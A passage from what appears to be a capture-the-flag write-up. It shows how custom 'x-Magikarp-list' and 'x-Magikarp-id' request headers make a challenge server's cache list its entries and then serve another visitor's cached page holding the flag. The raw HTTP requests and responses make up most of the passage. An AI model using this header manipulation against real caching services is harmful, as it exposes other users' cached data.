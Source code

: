    GET / HTTP/1.1
    Host: webtrawl-test.fshbwl.ru
    Connection: close
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.100 Safari/537.36
    Sec-Fetch-Mode: navigate
    Sec-Fetch-User: ?1
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
    Sec-Fetch-Site: none
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9
    x-Magikarp-list:true 

When it succeeded, I got a blank page with only text on it.

8b180c58e624d88879809de813187fab90cce00e;96;Wed Nov  6 19:29:24 2019
fcc851c80287dfb0116c6aa1b0e36fdbca94f788;6;Fri Nov  8 14:08:05 2019
843352a495223a4b5fe8d4dd35c1014395b71725;6;Fri Nov  8 14:08:06 2019
9aa3c13b57aeb838f39a2fbd30125436b458e29d;4;Fri Nov  8 14:07:20 2019

This seems to be a list of the cached IDs, since it lists an ID, number of hits and the last access time. The last three IDs only have a few hits and the second one is definitely the one for a normal request without antyhing added. The first one seems interesting. Since the assembler code suggests, that if you send a *X-Magikarp-ID* in the header it just uses this instead maybe we can do it with this ID. The following header was used: 

    GET / HTTP/1.1
    Host: webtrawl-test.fshbwl.ru
    Connection: close
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.100 Safari/537.36
    Sec-Fetch-Mode: navigate
    Sec-Fetch-User: ?1
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
    Sec-Fetch-Site: none
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9
    x-Magikarp-id: 8b180c58e624d88879809de813187fab90cce00e

The answer contains the flag:

    -----BEGIN FISHBOWL FLAG-----
    S8fV5W5LOGxQXavdDYubxhaVYG5cJX/my8ISCiaCqIvAqXyH
    DgF30JWig9CkESSlhLAtI7VFAaDdgaRVS76yt+riUwBTECp2
    Ah561czC7KT6SbEmD65bFsfyzKfe7W2acbaT29PajVWStjl7
    WEA=
    -----END FISHBOWL FLAG-----
